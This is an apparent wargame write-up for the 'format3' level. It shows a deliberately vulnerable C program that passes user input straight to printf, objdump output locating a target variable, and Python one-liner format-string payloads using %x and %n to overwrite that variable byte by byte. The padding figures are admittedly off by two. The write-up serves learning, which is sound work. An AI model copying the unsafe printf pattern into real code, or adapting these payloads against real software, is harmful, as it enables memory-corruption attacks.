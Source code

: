 # format3

## Enumeration
The code:
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

Finding the location of target in memory:
```bash
objdump -d format3 | grep .bss

080496e8 l    d  .bss   00000000              .bss
080496ec l     O .bss   00000001              completed.5982
080496f0 l     O .bss   00000004              dtor_idx.5984
080496e8 g       *ABS*  00000000              __bss_start
080496e8 g     O .bss   00000004              stdin@@GLIBC_2.0
080496f4 g     O .bss   00000004              target
```

## Exploitation
Clearly I'm overwriting target. The problem is that 0x01025544 (which is 16930116)is a very big number. I can actually write specific values to each byte by doing the following:
```
0x080496f4	0x44
0x080496f5		0x55
0x080496f6			0x02
0x080496f7				0x01
==============================================
			0x01025544
```
Ok, lets see how many bytes I'm forced to write the target.
```bash
python -c 'print "AAAA" + "\xf4\x96\x04\x08" + "%x."*12 + "%n."' | ./format3

target is 0000007f :(
```
Getting 0x55 is not possible. But I can wrap the byte around as 0x155. I just need to do some basic arithmetic to determine what the buffer space should be.
```bash
python -c 'print 0x144 - 0x7f + 0x8'

205
```
Using this in the payload:
```bash
python -c 'print "AAAA" + "\xf4\x96\x04\x08" + "%x."*11 + "%246x." + "%n."' | ./format3

target is 00000155 :(
```
Next, you add padding for each memory location in order to write to them. Then its simple rinse and repeat. Below are all the python arithmetic to calculate the whitespace and below that is the final payload.
```bash
python -c 'print 0x55 - 0x44'
17

python -c 'print 0x02 - 0x55'
-83

python -c 'print 0x102 - 0x55'
173

python -c 'print 0x01 - 0x02'
-1

python -c 'print 0x101 - 0x02'
255
```
Somewhere along the way I miss calculated by a factor of 2 so all the whitespace padding are decremented by 2 in my final payload. 
```bash
python -c 'print "AAAA" + "\xf4\x96\x04\x08" + "BBBB" + "\xf5\x96\x04\x08" + "CCCC" + "\xf6\x96\x04\x08" + "DDDD" + "\xf7\x96\x04\x08" + "%x."*11 + "%205x." + "%n." + "%15x." + "%n." + "%171x." + "%n." + "%253x." + "%n."' | ./format3
```

